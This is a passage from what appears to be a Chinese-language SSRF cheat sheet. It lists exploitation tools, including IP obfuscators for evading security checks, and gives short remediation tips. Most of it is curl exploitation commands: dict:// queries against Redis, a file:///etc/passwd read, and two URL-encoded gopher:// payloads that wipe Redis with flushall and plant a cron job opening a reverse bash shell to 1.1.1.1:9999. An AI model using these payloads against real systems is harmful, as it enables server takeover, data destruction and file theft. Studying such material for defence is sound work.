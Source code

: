 SSRF测试工具/利用工具

|名称|属性|描述|
|:-------------:|--|-----|
|[cujanovic/SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)|python|生成不同形式的SSRF payload (IP obfuscator ...)|
|[D4Vinci/Cuteit(IP obfuscator)](https://github.com/D4Vinci/Cuteit)|python2|IP obfuscator 将恶意IP改为各种格式以绕过安全检测|
|[samhaxr/XXRF-Shots](https://github.com/samhaxr/XXRF-Shots)|node.js|生成payload 发送众多请求 并使用phantomJS实现网页截图|
|[swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap)|python3|Automatic SSRF fuzzer and exploitation(RCE...) tool|
|[tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)|python2|生成gopher link 以利用SSRF实现RCE. This tool generates gopher link for exploiting SSRF and gaining RCE in various servers |

### 修复方式


* 如果有非法字符 return false
* 禁用协议 - 仅允许必要的协议 如http和https
* 禁止重定向(Redirect)
  * 301 redirect 永久性转移(Permanently Moved)
  * 302 redirect 暂时性转移(Temporarily Moved)
* 严格限制参数值内容-"关键字白名单"
* 严格限制参数值长度
* ...


-------


### 附-利用cURL支持的协议

cURL支持的协议很多
```
$ curl -V
curl 7.47.1 (x86_64-apple-darwin15.3.0) libcurl/7.47.1 OpenSSL/1.0.2g zlib/1.2.8  
Protocols: dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp  
Features: IPv6 Largefile NTLM NTLM_WB SSL libz TLS-SRP UnixSockets
```

```
# dict protocol (操作Redis)
# 本地测试
curl -vvv 'dict://127.0.0.1:6379/info'
```

```
# file protocol (任意文件读取)
# 本地测试
curl -vvv 'file:///etc/passwd'
```

```
# gopher protocol (利用redis写入var/spool/cron实现反弹Bash)  注意:会清空redis的数据!
# 本地测试 方式1
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/1.1.1.1/9999 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'

# 本地测试 方式2
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/1.1.1.1/9999 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'

# 远程测试 方式3
```